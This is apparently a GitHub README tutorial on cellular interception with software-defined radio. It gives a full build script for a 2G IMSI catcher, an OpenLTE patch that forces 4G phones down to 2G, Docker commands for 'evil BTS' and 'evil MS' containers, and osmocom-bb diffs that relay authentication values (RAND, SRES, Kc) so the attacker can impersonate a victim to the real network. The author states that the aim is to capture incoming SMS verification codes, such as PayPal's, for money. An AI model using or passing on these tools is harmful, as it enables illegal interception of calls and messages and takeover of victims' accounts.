

# Hello World !
This is how it begin ?
So why telecom ? Cause I have skills with ! Honestly was guided by security and wanted to be independant outside society but we have to live in... So what is to be independant : I think have money sorry if this is materialist but until  you prove the opposite we can't live without... Even commandos in nature have shoes ;) and they have to buy it. So the link between telecommunication and money ? Incomming SMS ! Paypal Verification, etc and I didn't want to abuse of trust and didn't want to search the 815e vulnerability in PHP. I wanted an always working hack or almost always working... So what is the way ?
SDR : Software Defined Radio like the name says this kind of radios are software defined it means that demodulation is not part of hardware but is made software based. And now what can we do with ? So many things... I will focus on mobile telephony. So let's go !

## Hacking 2G (Fooling MS : Mobile Station, the 2G phone)
Easy ! The MS doesn't ask authentication from BTS (Base Transceiver Station, the relay antenna). So what to do to intercept ? Be a BTS... and that's all just spoof the public values of the BTS (mcc,mnc exemple 208,15 for FreeMobile 208,01 for Orange, etc) and broadcast a stronger signal and it is done. How the implement a 2G BTS ? there are open sourced implementation on github. 
https://github.com/osmocom (OpenBSC Osmo-Trx Osmo-Bts... EOL but usefull) or (Network in the Box Updated)
https://github.com/RangeNetworks/openbts
https://github.com/vir/yate

To install it I have scripted it for example for OpenBSC :
```bash
#!/bin/bash
read -p "Architecture ? amd64, armel, arm64 ?" ARCH
apt-key adv --recv-keys --keyserver keyserver.ubuntu.com 3B4FE6ACC0B21F32 40976EAF437D05B5
cp /etc/apt/trusted.gpg /etc/apt/trusted.gpg.d
apt install gcc-9 g++-9 gcc-10 g++-10 git -y
echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ xenial main restricted universe multiverse" >> /etc/apt/sources.list
apt update
apt install gcc-4.9 g++-4.9 gcc-7 g++-7 -y
sed -i '$ d' /etc/apt/sources.list
apt update
apt install -y build-essential libusb-1.0-0-dev libsqlite3-dev libsctp-dev libgmp-dev libx11-6 libx11-dev flex libncurses5 libdbd-sqlite3 libdbi-dev libncurses5-dev libncursesw5 libpcsclite-dev zlib1g-dev libmpfr4 libmpc3 lemon aptitude libtinfo-dev libtool shtool autoconf git-core pkg-config make libmpfr-dev libmpc-dev libtalloc-dev libfftw3-dev libgnutls28-dev libtool-bin libxml2-dev sofia-sip-bin libsofia-sip-ua-dev sofia-sip-bin libncursesw5-dev bison libgmp3-dev alsa-oss
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-4.9 49 --slave /usr/bin/g++ g++ /usr/bin/g++-4.9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-7 70 --slave /usr/bin/g++ g++ /usr/bin/g++-7
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-9 90 --slave /usr/bin/g++ g++ /usr/bin/g++-9
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-10 100 --slave /usr/bin/g++ g++ /usr/bin/g++-10
echo "deb [arch=$ARCH] http://fr.archive.ubuntu.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
apt update
apt install -y gcc-5 g++-5 libssl1.0-dev
update-alternatives --install /usr/bin/gcc gcc /usr/bin/gcc-5 50 --slave /usr/bin/g++ g++ /usr/bin/g++-5
sed -i '$ d' /etc/apt/sources.list
apt update
update-alternatives --set gcc /usr/bin/gcc-4.9
exit
apt remove texinfo
mkdir -p /opt/IMSI_Catcher
cd /opt/IMSI_Catcher
wget http://ftp.gnu.org/gnu/texinfo/texinfo-4.13.tar.gz
tar xvf texinfo-4.13.tar.gz
cd texinfo-4.13
./configure
make
make install
#git clone https://github.com/bbaranoff/gnu-arm-installer.git gnuarm
#cd gnuarm
##Run the Scripts
#bash gnu-arm-installer.sh
#export PATH=$PATH:/root/gnuarm/install/bin
# Now you have cross-compiler ready you can build osmocom with your firmware
update-alternatives --set gcc /usr/bin/gcc-9
cd /opt/IMSI_Catcher
git clone git://git.osmocom.org/libosmocore.git
cd libosmocore
git checkout 1.3.0
autoreconf -i
./configure
make
make install
ldconfig
cd /opt/IMSI_Catcher
git clone git://git.osmocom.org/libosmo-dsp.git
cd libosmo-dsp
autoreconf -i
./configure
make
make install
cd /opt/IMSI_Catcher
update-alternatives --set gcc /usr/bin/gcc-5
git clone https://github.com/osmocom/osmocom-bb trx
cd trx
git checkout jolly/testing
cd src
wget https://github.com/bbaranoff/telco_install_sh/raw/main/trx.highram.bin
sed -i -e  's/#CFLAGS += -DCONFIG_TX_ENABLE/CFLAGS += -DCONFIG_TX_ENABLE/g' target/firmware/Makefile
make HOST_layer23_CONFARGS=--enable-transceiver nofirmware
cd /opt/IMSI_Catcher
update-alternatives --set gcc /usr/bin/gcc-9
apt install -y libortp-dev
cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/libosmo-abis
cd /opt/IMSI_Catcher/libosmo-abis
git checkout 0.8.1
autoreconf -fi && ./configure --disable-dahdi && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/libosmo-netif
cd /opt/IMSI_Catcher/libosmo-netif
git checkout 0.7.0
autoreconf -fi && ./configure && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/openbsc
cd /opt/IMSI_Catcher/openbsc/openbsc
autoreconf -fi && ./configure --with-lms && make -j4 && make install && ldconfig

cd /opt/IMSI_Catcher
git clone https://github.com/osmocom/osmo-bts
cd /opt/IMSI_Catcher/osmo-bts
git checkout 0.8.1
autoreconf -fi && ./configure --enable-trx && make -j4 && make install && ldconfig

cd /opt/IMSI_catcher
wget https://github.com/bbaranoff/telco_install_sh/raw/main/opencore-amr-0.1.5.tar.gz
tar xvzf opencore-amr-0.1.5.tar.gz
cd opencore-amr-0.1.5
./configure
make -j$(nproc)
make install
ldconfig
cd /lib/modules/$(uname -r)/build/certs
openssl req -new -x509 -newkey rsa:2048 -keyout signing_key.pem -outform DER -out signing_key.x509 -nodes -subj "/CN=Owner/"
cd /opt/IMSI_Catcher/
git clone https://github.com/isdn4linux/mISDN
cd /opt/IMSI_Catcher/mISDN
rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/hardware/mISDN
rm -Rf /lib/modules/$(uname -r)/kernel/drivers/isdn/mISDN/
wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/octvqe.patch
cp /boot/System.map-$(uname -r) /usr/src/linux-headers-$(uname -r)/System.map
ln -s /lib/modules/$(uname -r)/build /lib/modules/$(uname -r)/source
aclocal && automake --add-missing
./configure
patch -p0 < octvqe.patch
make modules
cp /opt/IMSI_Catcher/mISDN/standalone/drivers/isdn/mISDN/modules.order /usr/src/linux-headers-$(uname -r)
cp -rn /usr/lib/modules/$(uname -r)/. /usr/src/linux-headers-$(uname -r)
make modules_install
depmod -a

update-alternatives --set gcc /usr/bin/gcc-7

cd /opt/IMSI_Catcher
apt install bison flex -y
git clone https://github.com/isdn4linux/mISDNuser
cd /opt/IMSI_Catcher/mISDNuser
make
./configure
make
make install
ldconfig
cd example
./configure
make
make install
ldconfig

update-alternatives --set gcc /usr/bin/gcc-9
cd /opt/IMSI_Catcher
#Asterisk version (11.25.3) :
wget http://downloads.asterisk.org/pub/telephony/asterisk/releases/asterisk-11.25.3.tar.gz
tar zxvf asterisk-11.25.3.tar.gz
cd /opt/IMSI_Catcher/asterisk-11.25.3
apt install libncurses-dev libxml2-dev
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/tcptls.patch
patch -p1 < tcptls.patch
./configure
make -j$(nproc)
make install
make samples
make config
ldconfig
update-alternatives --set gcc /usr/bin/gcc-5
cd /opt/IMSI_Catcher
git clone https://github.com/fairwaves/lcr
cd lcr
wget https://raw.githubusercontent.com/bbaranoff/PImpMyPi/main/ast_lcr.patch
patch -p0 < ast_lcr.patch
autoreconf -i
./configure --with-sip --with-gsm-bs --with-gsm-ms --with-asterisk
make
make install
ldconfig
cp chan_lcr.so /usr/lib/asterisk/modules/
apt-get install alsa-oss
modprobe snd-pcm
modprobe snd-mixer-oss
modprobe mISDN_core
modprobe mISDN_dsp
rm -rf /usr/local/etc/lcr
mkdir -p /usr/local/etc/
git clone https://github.com/bbaranoff/lcr_conf /usr/local/etc/lcr/
sudo chmod 755 /usr/local/etc/lcr
sudo chmod 644 /usr/local/etc/lcr/*
cd /etc/asterisk
mv sip.conf sip.conf.bak
mv extensions.conf extensions.conf.bak
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/sip.conf
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/extensions.conf
mkdir /root/nitb
cd /root/nitb
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/openbsc.cfg
wget https://raw.githubusercontent.com/bbaranoff/telco_install_sh/main/nitb.sh
chmod +x nitb.sh
```

In https://github.com/bbaranoff/telco_install_sh

Follow the ReadMe and all should be OK.

[IMSI-Catcher 2G](https://www.youtube.com/watch?v=gHKmmVZAaFo)

Now we have hacked 2G outgoing calls what to do ?

I let as a reader research Yate, OpenBTS, Network In the Box ;)

Now we have hacked 2G outgoing calls what to do ?

## Hacking 4G !

What is the way ? Now the eNodeB (evolved Node BTS the 4G BTS) must authenticate with the phone... What to do then ? Fallback into 2G !
The phone before authenticate send a tracking area update request and the eNodeB respond it with a TAU accept what we will do then ? Reject It ! Say that only 2G is available in the area ;)

```patch
--- openlte_v00-20-05/liblte/src/liblte_rrc.cc	2016-10-09 22:17:50.000000000 +0200
+++ openlte_v00-20-05/liblte/src/liblte_rrc.cc	2022-01-25 17:14:32.613323868 +0100
@@ -11698,13 +11698,28 @@
         liblte_value_2_bits(0, &msg_ptr, 2);
 
         // Optional indicators
-        liblte_value_2_bits(0, &msg_ptr, 1);
+        liblte_value_2_bits(1, &msg_ptr, 1);
         liblte_value_2_bits(0, &msg_ptr, 1);
         liblte_value_2_bits(0, &msg_ptr, 1);
 
         // Release cause
         liblte_value_2_bits(con_release->release_cause, &msg_ptr, 2);
 
+// redirectedcarrierinfo
+// geran // choice
+liblte_value_2_bits(1, &msg_ptr, 4);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// dcs1800
+liblte_value_2_bits(0, &msg_ptr, 1);
+// Choice of following ARFCN
+liblte_value_2_bits(0, &msg_ptr, 2);
+// explicit list
+liblte_value_2_bits(1, &msg_ptr, 5);
+// arfcn no.
+liblte_value_2_bits(514, &msg_ptr, 10);
+// Note that total bits should be octet aligned,
+// if not, pad it with zeros.
         // Fill in the number of bits used
         msg->N_bits = msg_ptr - msg->msg;
 
--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h	2017-07-29 21:58:37.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_mme.h	2022-01-25 16:49:13.365515919 +0100
@@ -106,6 +106,7 @@
     // Message Parsers
     void parse_attach_complete(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_attach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
+    void send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user **user, LTE_fdd_enb_rb **rb);
     void parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_authentication_response(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void parse_detach_request(LIBLTE_BYTE_MSG_STRUCT *msg, LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
@@ -125,6 +126,8 @@
     // Message Senders
     void send_attach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_attach_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+    void send_tracking_area_update_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
+    void send_tracking_area_update_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_authentication_reject(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_authentication_request(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
     void send_detach_accept(LTE_fdd_enb_user *user, LTE_fdd_enb_rb *rb);
--- openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h	2017-07-29 22:03:51.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/hdr/LTE_fdd_enb_rb.h	2022-01-25 16:49:13.365515919 +0100
@@ -99,18 +99,21 @@
 typedef enum{
     LTE_FDD_ENB_MME_PROC_IDLE = 0,
     LTE_FDD_ENB_MME_PROC_ATTACH,
+    LTE_FDD_ENB_MME_PROC_TAU_REQUEST,
     LTE_FDD_ENB_MME_PROC_SERVICE_REQUEST,
     LTE_FDD_ENB_MME_PROC_DETACH,
     LTE_FDD_ENB_MME_PROC_N_ITEMS,
 }LTE_FDD_ENB_MME_PROC_ENUM;
 static const char LTE_fdd_enb_mme_proc_text[LTE_FDD_ENB_MME_PROC_N_ITEMS][100] = {"IDLE",
                                                                                   "ATTACH",
+										  "TAU REQUEST",
                                                                                   "SERVICE REQUEST",
                                                                                   "DETACH"};
 
 typedef enum{
     LTE_FDD_ENB_MME_STATE_IDLE = 0,
     LTE_FDD_ENB_MME_STATE_ID_REQUEST_IMSI,
+LTE_FDD_ENB_MME_STATE_TAU_REJECT,
     LTE_FDD_ENB_MME_STATE_REJECT,
     LTE_FDD_ENB_MME_STATE_AUTHENTICATE,
     LTE_FDD_ENB_MME_STATE_AUTH_REJECTED,
@@ -126,7 +129,7 @@
 }LTE_FDD_ENB_MME_STATE_ENUM;
 static const char LTE_fdd_enb_mme_state_text[LTE_FDD_ENB_MME_STATE_N_ITEMS][100] = {"IDLE",
                                                                                     "ID REQUEST IMSI",
-                                                                                    "REJECT",
+                                                      				    "REJECT",
                                                                                     "AUTHENTICATE",
                                                                                     "AUTH REJECTED",
                                                                                     "ENABLE SECURITY",
--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc	2017-07-29 22:15:50.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_mme.cc	2022-01-25 17:07:55.380027792 +0100
@@ -204,6 +204,10 @@
         case LIBLTE_MME_MSG_TYPE_ATTACH_REQUEST:
             parse_attach_request(msg, &nas_msg->user, &nas_msg->rb);
             break;
+        case LTE_FDD_ENB_MME_PROC_TAU_REQUEST:
+            send_tracking_area_update_request(msg, &nas_msg->user, &nas_msg->rb);
+            break;
+
         case LIBLTE_MME_MSG_TYPE_AUTHENTICATION_FAILURE:
             parse_authentication_failure(msg, nas_msg->user, nas_msg->rb);
             break;
@@ -655,6 +659,16 @@
         }
     }
 }
+void LTE_fdd_enb_mme::send_tracking_area_update_request(LIBLTE_BYTE_MSG_STRUCT  *msg,
+                                           LTE_fdd_enb_user       **user,
+                                           LTE_fdd_enb_rb         **rb)
+{
+    // Set the procedure
+
+(*rb) -> set_mme_procedure(LTE_FDD_ENB_MME_PROC_TAU_REQUEST);
+(*rb) -> set_mme_state(LTE_FDD_ENB_MME_STATE_TAU_REJECT);}
+
+
 void LTE_fdd_enb_mme::parse_authentication_failure(LIBLTE_BYTE_MSG_STRUCT *msg,
                                                    LTE_fdd_enb_user       *user,
                                                    LTE_fdd_enb_rb         *rb)
@@ -864,7 +878,7 @@
                 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_AUTHENTICATE);
                 user->set_id(hss->get_user_id_from_imei(imei_num));
             }else{
-                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_SECURITY_CAPABILITIES_MISMATCH);
+                user->set_emm_cause(LIBLTE_MME_EMM_CAUSE_UE_IDENTITY_CANNOT_BE_DERIVED_BY_THE_NETWORK);
                 rb->set_mme_state(LTE_FDD_ENB_MME_STATE_REJECT);
             }
         }else{
@@ -1195,6 +1209,9 @@
         user->prepare_for_deletion();
         send_attach_reject(user, rb);
         break;
+ case LTE_FDD_ENB_MME_STATE_TAU_REJECT:
+        send_tracking_area_update_reject(user, rb);
+break;
     case LTE_FDD_ENB_MME_STATE_AUTHENTICATE:
         send_authentication_request(user, rb);
         break;
@@ -1397,6 +1414,52 @@
                       (LTE_FDD_ENB_MESSAGE_UNION *)&cmd_ready,
                       sizeof(LTE_FDD_ENB_RRC_CMD_READY_MSG_STRUCT));
 }
+
+
+
+
+void LTE_fdd_enb_mme::send_tracking_area_update_reject(LTE_fdd_enb_user *user,
+                                         LTE_fdd_enb_rb   *rb)
+{
+    LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT nas_msg_ready;
+    LIBLTE_MME_TRACKING_AREA_UPDATE_REJECT_MSG_STRUCT      ta_update_rej;
+    LIBLTE_BYTE_MSG_STRUCT                   msg;
+     ta_update_rej.emm_cause = user->get_emm_cause();
+     ta_update_rej.t3446_present = false;
+     liblte_mme_pack_tracking_area_update_reject_msg(
+     &ta_update_rej,
+     LIBLTE_MME_SECURITY_HDR_TYPE_PLAIN_NAS,
+     user->get_auth_vec()->k_nas_int,
+     user->get_auth_vec()->nas_count_dl,
+     LIBLTE_SECURITY_DIRECTION_DOWNLINK,
+     &msg);
+    // Queue the NAS message for RRC
+    rb->queue_rrc_nas_msg(&msg);
+
+    // Signal RRC for NAS message
+    nas_msg_ready.user = user;
+    nas_msg_ready.rb   = rb;
+    msgq_to_rrc->send(LTE_FDD_ENB_MESSAGE_TYPE_RRC_NAS_MSG_READY,
+                      LTE_FDD_ENB_DEST_LAYER_RRC,
+                      (LTE_FDD_ENB_MESSAGE_UNION *)&nas_msg_ready,
+                      sizeof(LTE_FDD_ENB_RRC_NAS_MSG_READY_MSG_STRUCT));
+
+    send_rrc_command(user, rb, LTE_FDD_ENB_RRC_CMD_RELEASE);
+// Unpack the message
+    liblte_mme_unpack_tracking_area_update_reject_msg(&msg, &ta_update_rej);
+
+    interface->send_ctrl_info_msg("user fully attached imsi=%s imei=%s",
+                                  user->get_imsi_str().c_str(),
+                                  user->get_imei_str().c_str());
+
+    rb->set_mme_state(LTE_FDD_ENB_MME_STATE_ATTACHED);
+}
+
+
+
+
+
+
 void LTE_fdd_enb_mme::send_attach_reject(LTE_fdd_enb_user *user,
                                          LTE_fdd_enb_rb   *rb)
 {
@@ -1412,7 +1475,7 @@
         imsi_num = user->get_temp_id();
     }
 
-    attach_rej.emm_cause           = user->get_emm_cause();
+    attach_rej.emm_cause           = 2;
     attach_rej.esm_msg_present     = false;
     attach_rej.t3446_value_present = false;
     liblte_mme_pack_attach_reject_msg(&attach_rej, &msg);

--- openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc	2017-07-29 22:18:34.000000000 +0200
+++ openlte_v00-20-05/LTE_fdd_enodeb/src/LTE_fdd_enb_radio.cc	2022-01-25 17:09:37.116388236 +0100
@@ -229,7 +229,7 @@
     try
     {
         // Setup the USRP
-        if(devs[idx-1]["type"] == "x300")
+        if(devs[idx-1]["type"] == "soapy")
         {
             devs[idx-1]["master_clock_rate"] = "184320000";
             master_clock_set                 = true;
@@ -252,7 +252,6 @@
             usrp->set_rx_freq((double)liblte_interface_ul_earfcn_to_frequency(ul_earfcn));
             usrp->set_tx_gain(tx_gain);
             usrp->set_rx_gain(rx_gain);
-
             // Setup the TX and RX streams
             tx_stream  = usrp->get_tx_stream(stream_args);
             rx_stream  = usrp->get_rx_stream(stream_args);
@@ -822,7 +821,7 @@
         buffer_size = 1024;
     }
     status = bladerf_sync_config(bladerf,
-                                 BLADERF_MODULE_TX,
+                                BLADERF_TX_X1,
                                  BLADERF_FORMAT_SC16_Q11_META,
                                  BLADERF_NUM_BUFFERS,
                                  buffer_size,
@@ -842,7 +841,7 @@
 
     // Setup sync RX
     status = bladerf_sync_config(bladerf,
-                                 BLADERF_MODULE_RX,
+                                BLADERF_RX_X1,
                                  BLADERF_FORMAT_SC16_Q11_META,
                                  BLADERF_NUM_BUFFERS,
                                  buffer_size,
@@ -974,7 +973,7 @@
     if(radio_params->init_needed)
     {
         // Assume RX_timestamp and TX_timestamp difference is 0
-        bladerf_get_timestamp(bladerf, BLADERF_MODULE_RX, (uint64_t*)&rx_ts);
+        bladerf_get_timestamp(bladerf, BLADERF_RX, (uint64_t*)&rx_ts);
         next_tx_ts            = rx_ts + radio_params->samp_rate; // 1 second to make sure everything is setup
         metadata_rx.flags     = 0;
         metadata_rx.timestamp = next_tx_ts - (radio_params->N_samps_per_subfr*2); // Retard RX by 2 subframes
```

This patch applied on the OpenLTE suite should do the trick.

[Redirection Attack](https://www.youtube.com/watch?v=gHKmmVZAaFo)

And it does !

Then what to do ?
We know how to be a BTS in front of a MS and force the UE (User Equipement : 4G phone) to fallback into 2G.

Hey ! We gonna pretend that we are the MS in front of the BTS !

## Hacking 2G BTS



The UE has become an MS again and we know how to be a BTS !

But even in the BTS does not authenticate MS does in front of the BTS. How can we bypass this ? By respecting the attack flow above ;)

I mean the secret is the key Ki stored on the SIM even with physical access you can't crack it thanks to the chip inventor ! But we can fool the authentication process :
The original process is :

- The BTS send a rand,key_sequence to the MS.
- The MS respond SRes = f(ki,rand)
- The MS cipher the communication with Kc= f(Ki,rand,key_seq)

The hacked process is :
- The genuine BTS send a rand,key_seq to the Evil MS.
- The Evil MS send it to our Evil BTS via socket between Evil BTS server and Evil MS client.
- The Evil BTS send the rand,key_seq to genuine MS
- The Genuine MS respond sres -> Evil BTS -> Evil MS -> Genuine BTS
- In the example video Kc is forwarded between Genuine MS-> Evil MS

[Impersonnate PoC](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry...

[Impersonalisaion (français)](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;)
[Impersonate (english)](https://www.youtube.com/watch?v=rSGA4oFsFrQ)

https://imgur.com/lUjkpGp
First of all there is a bug with brltty so

```bash
apt remove brltty
```
on host (not on docker !)
Launch 1st
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```
Launch 2nd
```bash
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts (socket are made to work with theses addresses)

in bts
```bash
tmux
cd /
service pcscd start
./evil-bts.sh
```
`
then in ms :
```bash
tmux
cd /
bash trx.sh
ctrl-b c 
./evil-ms.sh
```
set IMSI in OpenBSC (via telnet)
and in /root/.osmocom/bb/mobile.cfg
and set any ki but set one in OpenBSC
need a motorola c1** and a sim reader

What happen next ?

[Crack A5/1](https://brmlab.cz/project/gsm/deka/attack-implementation)

5s to crack it before the Kc ciphered channel timeout has been gone and if it is done we have incomming SMS.

Targets android < 12, telco 2G until 2025 in France

Thank for reading (see after for impersonation patches)

Seulement dans osmocom-bb/: .git
Seulement dans heartbreaker/bb-2rfa/src/host/gsmmap: compile
Seulement dans heartbreaker/bb-2rfa/src/host/layer23: compile
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: client.h
diff -ru osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c
--- osmocom-bb/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 15:39:46.222274989 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/gsm48_mm.c	2022-08-30 15:35:55.472598046 +0200
@@ -20,6 +20,7 @@
  */
 
 #include <stdint.h>
+#include <string.h>
 #include <errno.h>
 #include <stdio.h>
 #include <string.h>
@@ -41,7 +42,7 @@
 #include <osmocom/bb/mobile/app_mobile.h>
 #include <osmocom/bb/mobile/vty.h>
 #include <osmocom/bb/mobile/dos.h>
-
+#include "client.h"
 extern void *l23_ctx;
 
 void mm_conn_free(struct gsm48_mm_conn *conn);
@@ -1662,6 +1663,15 @@
 	 */
 	if (mm->est_cause == RR_EST_CAUSE_EMERGENCY && set->emergency_imsi[0])
 		no_sim = 1;
+	char test2[]="1";
+	sprintf(test2, "%d", ar->key_seq);
+	char test3[3]="-";//"87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+	strcat(test3,test2);
+	char test[51]="87 65 43 21 87 65 43 21 87 65 43 21 87 65 43 21";
+	strcpy(test,osmo_hexdump(ar->rand,16));
+	strcat(test,test3);
+	LOGP(DMM, LOGL_INFO, "AUTHENTICATION REQUEST (seq %s)\n", test);
+	client(test);
 	gsm_subscr_generate_kc(ms, ar->key_seq, ar->rand, no_sim);
 
 	/* wait for auth response event from SIM */
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: hex2.h
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: hex.h
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: server2.h
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: server.h
diff -ru osmocom-bb/src/host/layer23/src/mobile/subscriber.c heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c
--- osmocom-bb/src/host/layer23/src/mobile/subscriber.c	2022-08-30 15:38:53.125893570 +0200
+++ heartbreaker/bb-2rfa/src/host/layer23/src/mobile/subscriber.c	2022-08-30 15:35:55.476598075 +0200
@@ -30,6 +30,11 @@
 #include <osmocom/bb/common/osmocom_data.h>
 #include <osmocom/bb/common/networks.h>
 #include <osmocom/bb/mobile/vty.h>
+#include "server.h"
+#include "server2.h"
+#include "hex.h"
+#include "hex2.h"
+
 
 /* enable to get an empty list of forbidden PLMNs, even if stored on SIM.
  * if list is changed, the result is not written back to SIM */
@@ -945,14 +950,21 @@
 
 		/* store sequence */
 		subscr->key_seq = key_seq;
-		memcpy(subscr->key, vec->kc, 8);
+
 
 		LOGP(DMM, LOGL_INFO, "Sending authentication response\n");
+                char *h4ck3d_kc;
+                h4ck3d_kc = catch_kc();
+                const unsigned char *my_h4ck3d_kc=hex2ascii(h4ck3d_kc);
+		char *h4ck3d_sres;
+		h4ck3d_sres = catch_sres();
+        	const unsigned char *my_h4ck3d_sres=hex2ascii2(h4ck3d_sres);
+		memcpy(subscr->key, my_h4ck3d_kc, 8);
 		nmsg = gsm48_mmevent_msgb_alloc(GSM48_MM_EVENT_AUTH_RESPONSE);
-		if (!nmsg)
-			return -ENOMEM;
 		nmme = (struct gsm48_mm_event *) nmsg->data;
-		memcpy(nmme->sres, vec->sres, 4);
+        	memcpy(nmme->sres,my_h4ck3d_sres, 4);
+		LOGP(DMM, LOGL_INFO, "KC hijacked = %s\n",osmo_hexdump(my_h4ck3d_kc,8));
+		LOGP(DMM, LOGL_INFO, "SRES hijacked = %s\n",osmo_hexdump(my_h4ck3d_sres,4));
 		gsm48_mmevent_msg(ms, nmsg);
 
 		return 0;
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: suppress_space2.h
Seulement dans heartbreaker/bb-2rfa/src/host/layer23/src/mobile: suppress_space.h
Seulement dans heartbreaker/bb-2rfa/src/host/osmocon: compile
Seulement dans osmocom-bb/src/shared/libosmocore/include/osmocom/core: crcgen.h
```
suppress_space.h
```c
nclude <stdio.h>
char res[100];
char* spaces(char str [])
{
int i = 0;int j = 0;
       while (str[i] != '\0')
       {
          if ((str[i] == ' ') != 1) {
            res[j] = str[i];
            j++;
          }
          i++;
       }
       res[j] = '\0';
return res;}
```
